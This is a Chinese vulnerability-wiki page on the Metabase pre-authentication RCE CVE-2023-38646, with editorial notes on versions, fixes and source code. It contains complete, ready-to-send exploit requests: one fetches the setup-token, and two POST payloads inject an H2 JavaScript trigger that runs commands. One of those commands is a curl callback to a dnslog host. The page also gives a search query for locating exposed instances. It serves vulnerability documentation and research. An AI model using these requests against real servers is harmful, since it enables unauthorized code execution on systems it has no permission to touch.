




# Metabase 未授权 JDBC 远程代码执行漏洞 CVE-2023-38646

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：<=0.46.6表述；可获取setup-token并调用setup validate；lab0.46.6/H2/Java环境
- 证据范围：明确先取setup-token，再验证请求，400错误也可已执行，结果另看容器文件

### 本次正文校订

- 按实际内容修正 3 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 所有<=0.46.6过于概括，需覆盖社区/企业分支及回补修复边界
- 没有明确修复版本/公告
- JDBC字段格式与H2/JDK脚本引擎要求需版本固定
- 400不能单独作为成功或失败，应保留文件证据判定

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

Metabase是一个开源的数据分析平台。在其0.46.6版本及以前，存在一处远程代码执行漏洞，未授权的用户可以使用JDBC注入在服务器上执行任意代码。

参考链接：

- https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/
- https://blog.calif.io/p/reproducing-cve-2023-38646-metabase
- https://mp.weixin.qq.com/s/MgfIyq0OJwnKOUF2kBB7TA

## 网络测绘

```
app="Metabase"
```

## 环境搭建

Vulhub执行如下命令启动一个Metabase server 0.46.6：

```shell
docker compose up -d
```

服务启动后，访问`http://your-ip:3000`可以查看到Metabase的安装引导页面，填写初始账号密码，并且跳过后续的数据库填写的步骤即可完成安装：




## 漏洞复现

首先，需要先访问`/api/session/properties`来获取Metabase的`setup-token`：

```http
GET /api/session/properties HTTP/1.1
Host: your-ip:3000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Connection: close
Cache-Control: max-age=0
```




要利用漏洞，必须要获取这个Token。

接着，将刚才获取的`[setup-token]`替换进下面这个请求后发送：

```http
POST /api/setup/validate HTTP/1.1
Host: your-ip:3000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 739

{
    "token": "[setup-token]",
    "details":
    {
        "is_on_demand": false,
        "is_full_sync": false,
        "is_sample": false,
        "cache_ttl": null,
        "refingerprint": false,
        "auto_run_queries": true,
        "schedules":
        {},
        "details":
        {
            "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;",
            "advanced-options": false,
            "ssl": true,
"init": "CREATE TRIGGER shell3 BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\u000A\u0009java.lang.Runtime.getRuntime().exec('touch /tmp/success')\u000A$$"
        },
        "name": "an-sec-research-team",
        "engine": "h2"
    }
}
```




虽然 response code 为 400，但可以看到，`touch /tmp/success`已成功在Metabase容器中执行：




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）

## TRACE 参数变体与版本补证（2026-10-05）

本节补录 FrameVul 第 339 项 PeiQi 原作者文档中的另一种连接字符串。原稿使用独立 `init` 字段，本节材料把 SQL 放在 `db` 的 `TRACE_LEVEL_SYSTEM_OUT` 参数之后；两者不能因为 CVE 相同就被当成字节或参数位置完全一致。旧正文、原有请求和测试值保留。

### 来源、版本和必要条件

已完整读取 PeiQi 固定提交 [f4596359a8b7b31ae4d231eeaec711706b892ed2 中的原文](https://github.com/PeiQi0/PeiQi-WIKI-Book/blob/f4596359a8b7b31ae4d231eeaec711706b892ed2/docs/wiki/webapp/Metabase/Metabase%20validate%20%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%20CVE-2023-38646.md)，blob 为 `c5cb8bab4956406bfb8fb9e4e394146d5c215414`。原站先前普通读取失败不等于没有原文；这次已从作者固定 Git 文件恢复技术文本，未根据图片补写结果。

Assetnote 的[原始研究](https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/)明确使用 Metabase **v0.46.6**，说明 `setup-token` 未被清除且可由未登录访问者取得时，`/api/setup/validate` 会测试所提供的数据库连接。旧实例可能已经清除了 token；因此产品版本命中、API 能访问和 `setup-token: null` 都不能直接等价为完整利用条件。

针对下面这一份输入，还需要：

- 非空且被实例接受的 `setup-token`，以及能访问验证接口
- H2 驱动与能够处理该触发器脚本的 JavaScript 引擎
- `/app/metabase.jar` 中存在可用的 `sample-database.db`；这是来源容器路径，不能泛化到任意 JAR 部署目录
- `curl` 能被进程启动，且网络/DNS允许访问原样例指定的记录域名，才能按该样例观察外连
- 执行权限继承 Metabase 进程，不自动等于 root

官方 [2023-07-20 公告](https://www.metabase.com/blog/vulnerability-advisory)与[固定 CVE 记录](https://github.com/CVEProject/cvelistV5/blob/84ce905802bd42acd5009dff04e62c322abd9f0d/cves/2023/38xxx/CVE-2023-38646.json)列出的历史修复分支为：0.46.6.1 / 1.46.6.1、0.45.4.1 / 1.45.4.1、0.44.7.1 / 1.44.7.1、0.43.7.2 / 1.43.7.2。不再把“所有不高于 0.46.6”当作能够跨社区/企业及维护分支直接使用的判定规则。后续另外披露的问题不在本节范围；维护应采用当前受支持且含相关修复的版本。

### 原样请求

PeiQi 第 26–28 行先给出 `/api/session/properties`，随后第 33–59 行给出以下完整请求。Host 留空、UUID、Content-Length、域名、空白和转义均按来源保留，未替换为本库测试值；没有发送请求或联系其中的地址：

```http
POST /api/setup/validate HTTP/1.1
Host: 
Content-Type: application/json
Content-Length: 812

{
    "token": "e56e2c0f-71bf-4e15-9879-d964f319be69",
    "details":
    {
        "is_on_demand": false,
        "is_full_sync": false,
        "is_sample": false,
        "cache_ttl": null,
        "refingerprint": false,
        "auto_run_queries": true,
        "schedules":
        {},
        "details":
        {
            "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('curl ecw14d.dnslog.cn')\n$$--=x",
            "advanced-options": false,
            "ssl": true
        },
        "name": "an-sec-research-team",
        "engine": "h2"
    }
}
```

公开研究选择 JAR 内样例数据库，是为了避免直接对实例的业务数据库构造触发器；这是一项来源说明，不保证任意改写后的连接字符串都没有数据库副作用。HTTP 400 可能在脚本求值之后发生，也可能完全没有执行；应区分实际外连/进程证据与一般数据库错误。本次未运行该请求、查看图片像素或确认原 DNS 记录，不能把原文截图当成本库观察。

### 固定源码与依赖对应

Metabase v0.46.6 的固定提交为 `1bb88f588b7b15d571ba7a0369cdcb2a5ca9b7a8`：

1. [`src/metabase/setup.clj` 第 13–24 行](https://github.com/metabase/metabase/blob/1bb88f588b7b15d571ba7a0369cdcb2a5ca9b7a8/src/metabase/setup.clj#L13-L24)将 setup-token 标记为 public，并以字符串相等校验提交值
2. [`src/metabase/api/setup.clj` 第 177–190 行](https://github.com/metabase/metabase/blob/1bb88f588b7b15d571ba7a0369cdcb2a5ca9b7a8/src/metabase/api/setup.clj#L177-L190)把数据库明细送入连接测试；[`api/database.clj` 第 668–701 行](https://github.com/metabase/metabase/blob/1bb88f588b7b15d571ba7a0369cdcb2a5ca9b7a8/src/metabase/api/database.clj#L668-L701)调用驱动连接测试并将异常转为错误信息
3. [`src/metabase/driver/h2.clj` 第 431–456 行](https://github.com/metabase/metabase/blob/1bb88f588b7b15d571ba7a0369cdcb2a5ca9b7a8/src/metabase/driver/h2.clj#L431-L456)会从连接字符串选项中移除名为 INIT 的项。原始研究据此改用 TRACE 参数，而不是声称该版本对所有 INIT 写法都无防护
4. [`deps.edn` 第 42 行](https://github.com/metabase/metabase/blob/1bb88f588b7b15d571ba7a0369cdcb2a5ca9b7a8/deps.edn#L42)声明 H2 2.1.212；[发布 Dockerfile 第 1 行](https://github.com/metabase/metabase/blob/1bb88f588b7b15d571ba7a0369cdcb2a5ca9b7a8/bin/docker/Dockerfile#L1)采用 Java 11 JRE 镜像。这些是固定源码中的依赖声明，不是本库验证了历史镜像制品

继续按 H2 2.1.212 固定提交 `8f861862c480204811e96af28e101ae7a7f1ef4f`核对限定调用点：[`Engine.java` 第 238–270 行](https://github.com/h2database/h2database/blob/8f861862c480204811e96af28e101ae7a7f1ef4f/h2/src/main/org/h2/engine/Engine.java#L238-L270)将连接属性值拼入 SET 语句并执行；[`TriggerObject.java` 第 100–120 行](https://github.com/h2database/h2database/blob/8f861862c480204811e96af28e101ae7a7f1ef4f/h2/src/main/org/h2/schema/TriggerObject.java#L100-L120)对脚本触发器调用编译结果的 `eval()`；[`SourceCompiler.java` 第 181–225 行](https://github.com/h2database/h2database/blob/8f861862c480204811e96af28e101ae7a7f1ef4f/h2/src/main/org/h2/util/SourceCompiler.java#L181-L225)通过 `ScriptEngineManager`取得 JavaScript 引擎。不能将“某个 JDK 存在”简化成“该脚本引擎一定可用”。

### 修复证据不能混用

本次还核对了公共 `v0.46.6.1` 标签所指向的 `ee1d3235c42f06e650aab3914fd7356ba0a386ec`。其提交说明是“empty commit for the github release”，上述 setup/API 文件与 v0.46.6 相同；本库没有把这个 Git 树伪称为安全修复实现。官方公告明确说当时先发布修复制品、延后公开补丁细节。因此上面的“修复版本”依据是厂商公告与 CVE，源码段用于说明受影响实现，二者证据角色不同。未下载或反编译发布 JAR，也未据这个空提交反向推断厂商制品没有修复。

### 静态防投毒与副作用范围

已读完整固定 PeiQi 文档及其唯一 POST 样例。它没有另附安装器、扫描器、二进制或工作流；样例内明确存在创建触发器、脚本求值和启动 `curl` 的行为。DNS 记录域名是来源指定的验证接收端，并非本文新加入的地址；它会接收网络连接信息。样例没有把下载内容继续交给解释器执行，也没有额外的混淆/编码程序、创建持久账户或破坏性删除指令。这个判断不表示其命令执行功能没有风险。

依赖审查只覆盖上述固定 Metabase/H2 文件的列明函数与声明，不是完整产品审计。为确认 Java 版本而读取的产品 Dockerfile 另有 APT/APK 安装、Clojure installer 下载执行、CA证书下载导入及缓存清理；镜像标签和外部下载未全量固定审计。本节不提供或认证这条构建安装链，没有执行其中任何命令。

这条流程可能创建数据库对象、启动系统进程、发出网络请求并产生访问/异常日志；错误响应不自动撤销已发生的动作。原有 INIT 样例继续保留，TRACE 补录只解释这一具体历史变体及可核对的条件，不增加新的认证绕过链。

